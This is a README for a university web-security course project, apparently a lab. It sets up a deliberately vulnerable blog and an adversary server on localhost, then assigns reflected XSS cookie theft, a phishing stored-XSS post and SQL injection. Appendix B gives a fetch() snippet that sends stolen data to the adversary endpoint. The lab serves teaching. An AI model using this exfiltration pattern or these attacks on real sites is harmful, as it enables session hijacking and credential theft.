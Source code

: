 # 🧑‍💻 Cyber-Squad (CPEN 442 Final Project)

## Setting Up the Environment
### Setting up the Database
1.	Install a SQL client. For our project we used the MySQL client which can be installed from here: https://dev.mysql.com/downloads/installer/ 
2.	To create the necessary databases to run the project, we used the MySQL workbench which can be installed from here: https://dev.mysql.com/downloads/workbench/ 
3. Execute the SQL statements shown below in the query terminal on MySQL workbench after connecting to a database. This will create the blog and adversary databases. The necessary tables and initial rows for the tables will be created when the servers for the adversary webpage and blog web page are started.

### Setting up the web servers and the web pages
1.	Download the zip file called web_security_project.zip, and extract the contents
2.	Open the extracted folder in some text editor (ex. VS Code)
3.	In the terminal, run the following commands to install the necessary dependencies to run the web applications.
```
cd frontend; npm install
cd ../blog_web_app; npm install
cd ../adversary_web_app; npm install
```
4.	To run the whole project, you will need to open 4 terminals: \
a. In terminal 1, run: ```cd frontend; npm start```\
b. In terminal 2, run: ```cd blog_web_app; npm start```\
c. In terminal 3, run: ```cd adversary_web_app; npm start ```\
d. In terminal 4, run: ```cd adversary_web_app; node index.js ```
5.	Now, you will able to see the blog site web page at http://localhost:8080 and the adversary web page at  http://localhost:8081 

## The assignment
You will create a web attack for each of these 3 types of attacks: 
### Reflected XSS attack
* Craft a malicious link that can be sent to an unexpecting user such that when they click on their link, their cookies from the CyberSquad Blog website are sent to the adversary database
* Cookies on a web page can be accessed via ```document.cookie```
* The adversary web app has an API endpoint that can be used to send stolen information to the database. Check Appendix B for an example of how to use this API with a fetch request in JavaScript. If you are finding that the fetch request is not being made, try removing all space characters in the fetch request.
### Stored XSS attack
* Craft a malicious blog post that can be used to steal some information from an unexpecting user that loads the blog site
* The approach that we recommend is trying to phish the user and trick them into revealing some sensitive information (such as their password). This does not have to be automatic and can require some user input
### SQL Injection
* Inspect the code base and find a way that you can inject malicious SQL in the web page to perform a malicious action
* This attack does not require you to send some information to the adversary database

Appendix A
SQL statements for creating the blog post database:
CREATE DATABASE blogdb;

SQL statements for creating the adversary database:
CREATE DATABASE adversary_database
Appendix B
fetch('http://localhost:4000/stolenInfo', {
            method: 'POST',
            headers: {
                'Content-Type': 'application/json',
            },
            body: JSON.stringify({ 'stolen_info': 'test1'}),
        })
        .then(function (response) {response.json()})
        .then(function(data){console.log(data)})
        .catch(function(error) {console.error('Error:', error)});

